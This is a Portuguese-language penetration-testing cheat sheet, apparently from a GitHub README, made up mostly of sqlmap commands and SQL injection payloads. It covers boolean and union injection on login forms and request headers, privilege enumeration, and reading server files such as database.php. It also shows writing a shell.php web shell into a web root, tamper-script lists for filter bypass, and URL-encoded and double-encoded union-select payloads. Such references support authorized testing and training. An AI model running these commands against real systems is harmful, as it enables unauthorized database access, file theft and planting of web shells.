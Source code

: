 ```

### Teste Formulário de Login

sqlmap -u 'http://[URL]/' --data='user=[valor]&password=[valor]' -p user --technique=B --banner

### Teste usando a requisição do Burp

sqlmap -r '[path-to-file-request]' -p user-agent --random-agent --technique=U --banner

### Ver os privilegios
sqlmap -r header-req --current-user --privileges

### Ler arquivo do servidor
Link: https://www.hackingarticles.in/file-system-access-on-webserver-using-sqlmap/

sqlmap -r header-req --file-read=C:\\inetpub\\wwwroot\\database.php
sqlmap -u 192.168.1.124/sqli/Less-1/?id=1 --file-read=/xampp/htdocs/index.php --batch

### Adicionar arquivo no servidor
sqlmap -u 192.168.1.124/sqli/Less-1.?id=1 --file-write=/root/Desktop/shell.php --file-dest=/xampp/htdocs/shell.php --batch
```
#### SQL Injection Bypass com scripts 
Use scripts default com a opção Tamper e use scripts customizados como no exemplo [Blind sql](../blind-sql/readme.md)
Tamper Script
```
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,percentage,randomcase,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```
#### SQL Injection com encode
```
## Payload
%61%61%61%61%27%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%3b%20%2d%2d%20%2d

## Doble Encode
 %25%36%31%25%36%31%25%36%31%25%36%31%25%32%37%25%32%30%25%37%35%25%36%65%25%36%39%25%36%66%25%36%65%25%32%30%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%34%30%25%34%30%25%37%36%25%36%35%25%37%32%25%37%33%25%36%39%25%36%66%25%36%65%25%33%62%25%32%30%25%32%64%25%32%64%25%32%30%25%32%64

## SQLMap com encode 
sqlmap -u 'http://[URL]/' -p user-agent --tamper=charencode --technique=U --banner


## Doble Encode
sqlmap -u 'http://[URL]/' -p user-agent --tamper=chardoubleencode --dbs --level 2 --risk 2
```
